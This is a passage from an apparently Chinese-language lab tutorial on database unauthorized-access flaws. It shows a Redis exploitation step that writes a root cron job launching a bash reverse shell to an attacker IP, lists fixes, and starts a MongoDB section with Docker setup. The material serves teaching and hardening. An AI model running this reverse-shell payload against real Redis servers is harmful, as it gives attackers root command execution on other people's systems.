 ![image-20200703144858785](/images/Unauthorized/image-20200703144858785.png)

![image-20200703144912904](/images/Unauthorized/image-20200703144912904.png)

<center>如上图所示连接成功</center>
2、getshell

```shell
# 攻击机执行nc监听
nc -lvnp 9999
# Redis客户端执行
set shell "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/172.16.144.141/9999 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```

还有其他方式进行反弹shell可网上参考

![image-20200704093747944](/images/Unauthorized/image-20200704093747944.png)

<center>getshell</center>
##### 漏洞修复

1、限制登录ip

2、添加密码

3、修改默认端口

#### MongoDB 未授权访问

##### 漏洞描述

​	开启MongoDB服务时不添加任何参数时,默认是没有权限验证的,登录的用户可以通过默认端口无需密码对数据库任意操作（增、删、改、查高危动作）而且可以远程访问数据库。

​	造成未授权访问的根本原因就在于启动 Mongodb 的时候未设置 --auth 也很少会有人会给数据库添加上账号密码（默认空口令），使用默认空口令这将导致恶意攻击者无需进行账号认证就可以登陆到数据服务器。

##### 漏洞验证

0、环境搭建

```shell
//镜像搜索
# docker search mongodb
//拉取镜像
# docker pull mongo
//显示mongo镜像
# docker images mongo
//创建新的容器
# docker run -d -p 27017:27017 --name mongodb mongo
//显示所有容器
# docker ps -a
```
